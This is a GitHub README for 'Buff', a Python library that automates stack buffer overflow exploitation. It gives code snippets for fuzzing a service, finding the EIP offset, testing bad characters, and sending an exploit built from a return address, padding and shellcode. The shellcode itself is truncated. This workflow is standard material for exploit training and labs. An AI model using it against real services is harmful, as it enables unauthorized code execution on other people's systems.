 <h1 align="center">What is Buff?</h1>  


<p align="center">
    <img src="https://raw.githubusercontent.com/the-robot/buff/master/images/guy.png" | width=200>
</p>

<p align="center">A simple BOF library I wrote under an hour to help me automate with BOF attack.</p>
<p align="center">It comes with fuzzer and a generic method to generate exploit easily.</p>

<br/>

> Not all the methods are documented yet as I do not have time now. Feel free to read the code, it's very small code-base anyway :)

# Usage

I made a [template as well](https://github.com/the-robot/buff/blob/master/examples/template.py).

## Setup Runner
```python
import buff

runner = buff.Buff(target = ("127.0.0.1", 1337), prefix = "", postfix = "")
```

## Fuzzer
```python
runner.fuzz()

# you can set timeout, step_size, and sleep seconds
runner.fuzz(timeout = 5, step_size = 1000, sleep = 3)

# use custom fuzzer
def fuzzer(target: (str, int), timeout: int, prefix: str = "", postfix: str = "", step_size: int = 100, sleep: int = 1):
    ...

runner.setFuzzer(fuzzer)
```

## Custom Sender
This `sender` method is used by `sendPattern`, `sendBadChars` and `sendExploit` methods.  
You can look [SLmail example](https://github.com/the-robot/buff/tree/master/examples/slmail) for custom fuzzer and sender methods usage.

```python
# custom sender method
def sender(target: (str, int), buffer: str) -> None:
    ...

runner.setSender(sender)
```


## Sending Pattern
```python
runner.sendPattern()
```

## Finding Pattern Offset
```python
BUFFER_SIZE = 2400
offset = buff.generator.findPatternOffset(BUFFER_SIZE, "386F4337")
print(offset)
```

## Sending Bad Characters
```python
runner.setBufferSize(2400)
runner.setEipOffset(1978)
runner.sendBadChars()

# you can also exclude by
runner.sendBadChars(exclude = ["\x42", "\x43"])

# change default EIP placeholder
runner.sendBadChars(fake_eip = "\x44\x44\x44\x44")
```

## Sending Exploit
```python
# Set buffer size
runner.setBufferSize(2400)

# Set EIP offset
runner.setEipOffset(1978)

# Set return address
eip_address = "\xaf\x11\x50\x62"
runner.setEipAddress(eip_address)

# Set padding
runner.setPaddingSize(16)

# Set exploit
exploit = ("\xdb\xde.....")
runner.setExploit(exploit)

runner.sendExploit()
```
